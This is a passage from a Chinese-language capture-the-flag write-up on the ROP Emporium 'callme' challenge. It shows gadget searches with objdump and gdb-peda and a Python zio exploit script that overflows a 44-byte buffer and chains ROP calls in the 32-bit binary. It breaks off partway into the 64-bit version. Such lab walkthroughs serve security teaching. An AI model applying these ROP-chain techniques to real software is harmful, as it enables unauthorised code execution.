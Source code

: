我们要做的是依次调用 `callme_one()`、`callme_two()` 和 `callme_three()`，并且每个函数都要传入参数 `1`、`2`、`3`。通过调试我们能够知道函数逻辑，`callme_one` 用于读入加密后的 flag，然后依次调用 `callme_two` 和 `callme_three` 进行解密。

由于函数参数是放在栈上的，为了平衡堆栈，我们需要一个 `pop;pop;pop;ret` 的 gadgets：
```
$ objdump -d callme32 | grep -A 3 pop
...
 80488a8:       5b                      pop    %ebx
 80488a9:       5e                      pop    %esi
 80488aa:       5f                      pop    %edi
 80488ab:       5d                      pop    %ebp
 80488ac:       c3                      ret    
 80488ad:       8d 76 00                lea    0x0(%esi),%esi
...
```
或者是 `add esp, 8; pop; ret`，反正只要能平衡，都可以：
```
gdb-peda$ ropsearch "add esp, 8"
Searching for ROP gadget: 'add esp, 8' in: binary ranges
0x08048576 : (b'83c4085bc3')    add esp,0x8; pop ebx; ret
0x080488c3 : (b'83c4085bc3')    add esp,0x8; pop ebx; ret
```

构造 payload 如下：
```python
from zio import *

payload  = ""
payload += "A"*44

payload += l32(0x080485c0)
payload += l32(0x080488a9)
payload += l32(0x1) + l32(0x2) + l32(0x3)

payload += l32(0x08048620)
payload += l32(0x080488a9)
payload += l32(0x1) + l32(0x2) + l32(0x3)

payload += l32(0x080485b0)
payload += l32(0x080488a9)
payload += l32(0x1) + l32(0x2) + l32(0x3)

io = zio('./callme32')
io.writeline(payload)
io.read()
```

#### callme
64 位程序不需要平衡堆栈了，只要将参数按顺序依次放进寄存器中就可以了。

```
$ rabin2 -i callme | grep callme
ordinal=004 plt=0x00401810 bind=GLOBAL type=FUNC name=callme_three
ordinal=008 plt=0x00401850 bind=GLOBAL type=FUNC name=callme_one
ordinal=011 plt=0x00401870 bind=GLOBAL type=FUNC name=callme_two
```
```
gdb-peda$ ropsearch "pop rdi; pop rsi"
Searching for ROP gadget: 'pop rdi; pop rsi' in: binary ranges
0x00401ab0 : (b'5f5e5ac3')      pop rdi; pop rsi; pop rdx; ret
```
